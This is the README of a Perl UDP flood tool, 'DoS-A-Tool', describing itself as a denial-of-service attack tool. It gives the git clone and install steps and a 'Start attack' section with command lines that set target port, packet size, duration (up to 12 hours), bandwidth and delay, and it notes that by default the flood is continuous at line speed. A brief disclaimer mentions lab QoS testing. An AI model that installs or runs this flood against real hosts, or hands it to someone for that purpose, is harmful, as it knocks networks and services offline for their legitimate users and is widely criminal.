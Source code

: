 # DoS-A-Tool v.1.5

        Denail of Service Attack Tool (DoS-A-Tool)

A distributed denial-of-service (DDoS) attack is an attack in which multiple compromised computer systems attack a target, such as a server, website or other network resource, and cause a denial of service for users of the targeted resource. The flood of incoming messages, connection requests or malformed packets to the target system forces it to slow down or even crash and shut down, thereby denying service to legitimate users or systems.

# INSTALLATION

        $ yes|apt install git perl

	$ git clone https://github.com/ivam3/DoS-A-Tool.git

	$ cd DoS-A-Tool

	$ chmod 751 DoS-A-Tool

#USAGE

- For get a help menu :

        $ perl DoS-A-Tool --help

- Start attack :

        $ perl DoS-A-Tool 0.0.0.0
        $ perl DoS-A-Tool 0.0.0.0 --port 1985
        $ perl DoS-A-Tool 0.0.0.0 --port 1985 --size 1000 --time 43200
        $ perl DoS-A-Tool 0.0.0.0 --port 1985 --time 43200 --bandwidth 25000 --delay 500

Defaults:
  * random destination UDP ports are used unless --port is specified.
  * random-sized packets are sent unless --size or --bandwidth is specified.
  * flood is continuous unless --time is specified.
  * flood is sent at line speed unless --bandwidth or --delay is specified.

Usage guidelines:
  --size parameter is ignored if both the --bandwidth and the --delay
    parameters are specified.

  Packet size is set to 256 bytes if the --bandwidth parameter is used.
    without the --size parameter

  --time duration of the execution of the attack in seconds.

  --bandwidth specify the bandwidth to use in kbps.

  --delay interval in milliseconds(msec) between sending packets.

  The specified packet size is the size of the IP datagram (including IP and
  UDP headers). Interface packet sizes might vary due to layer-2 encapsulation.

Warnings and Disclaimers:
  Flooding third-party hosts or networks is commonly considered a criminal activity.
  Flooding your own hosts or networks is usually a bad idea
  Higher-performace flooding solutions should be used for stress/performance tests
  Use primarily in lab environments for QoS tests.

To get help join to :
			https://t.me/Ivam3_Bot

#Coded by Ivam3

